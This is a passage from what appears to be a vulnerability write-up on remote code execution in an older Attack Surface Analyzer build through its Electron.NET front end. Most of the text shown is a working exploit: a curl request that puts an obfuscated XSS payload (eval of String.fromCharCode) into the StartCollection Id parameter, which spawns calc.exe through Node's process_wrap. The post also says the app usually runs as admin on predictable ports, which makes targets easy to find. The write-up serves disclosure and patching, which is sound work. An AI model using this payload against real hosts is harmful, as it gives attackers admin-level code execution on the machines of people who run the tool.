```html
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,
111,114,101,39,125,93,125,41,59))>
```

You can also submit the payload locally via this curl command:

```
curl -vvv -ik -H "Host:localhost:8001" "http://localhost:8001/Home/StartCollection?
Id=<img%20id=%225%22%20src=x%20onerror=eval(String.fromCharCode(118,97,114,32,80,
114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,
110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,
101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,
117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,
118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,
110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,
105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,
39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,
119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,44,97,114,103,
115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,
101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,
101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,
105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,
114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,
41,59))>&File=false&Port=false&Service=false&User=false&Registry=false&Certificates=true"
```

Switch back to the `Scan` tab (or click on it to reload it if it's already open)
in the guest VM and see `calc` pop up.

{{< imgcap title="Calc in guest VM" src="08-calc-in-vm.png" >}}

Incidentally, the command line value in procmon for running the calc looks like a kaomoji.

{{< imgcap title="Calc in procmon" src="09-calc-procmon.png" >}}

### Funky Gifs
Injecting the payload from VM host:

{{< imgcap title="Injecting from host into guest" src="10-test-run.gif" >}}

Injecting the payload locally:

{{< imgcap title="Localhost and curl" src="11-localhost.gif" >}}

# The Good and the Bad

**[+]** ASA is usually run as Admin. This allows ASA to have more visibility into the
OS and give us better results. This means our RCE is as admin.\
**[+]** The ports are usually `8000` and `8001`. Unless you are running
something else on those ports, it's easy to discover machines running a
vulnerable version of the ASA.\


[asa-github]: https://github.com/microsoft/AttackSurfaceAnalyzer
[electron.net-github]: https://github.com/ElectronNET/Electron.NET
[matt-twitter]: https://twitter.com/mattt_cyber
[electron-website]: https://electronjs.org/
[kestrel-docs]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel
[ASA-v2]: https://github.com/microsoft/AttackSurfaceAnalyzer/releases/tag/v2.0.143%2Bfe41ced7df
[modern.ie]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[lewis-twitter]: https://twitter.com/lewisardern
[electron.net-github-webpreferences]: https://github.com/ElectronNET/Electron.NET/blob/3cb92169dd1fc4ca917e1a48551192038f68bbec/ElectronNET.API/Entities/WebPreferences.cs#L18
[electron-security-nodeintegration]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md#2-do-not-enable-nodejs-integration-for-remote-content
[eval-encoder]: https://eve.gd/2007/05/15/javascript-eval-string-fromcharcode-encoder/
[main.js-startAspCoreBackend]: https://github.com/ElectronNET/Electron.NET/blob/131d1d9dd115d480b2c65353d44b9433b8b874f2/ElectronNET.Host/main.js#L141
[kestrel-filtering]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel#host-filtering
[electron-security]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md
[msrc-link]: https://msrc.microsoft.com/
[218-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/commit/0dffa1a04a4c047ddd7f682c0def740a8f17c810
[220-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/commit/37bce60e86e1d727970be6e5aa6ba1a1d8083b35
[launchSettings-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/37bce60e86e1d727970be6e5aa6ba1a1d8083b35/Gui/Properties/launchSettings.json#L30
[collect-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/3dec668982b513f92cb9bc8a00ff57fdaada14da/Gui/wwwroot/js/Collect.js#L59-L98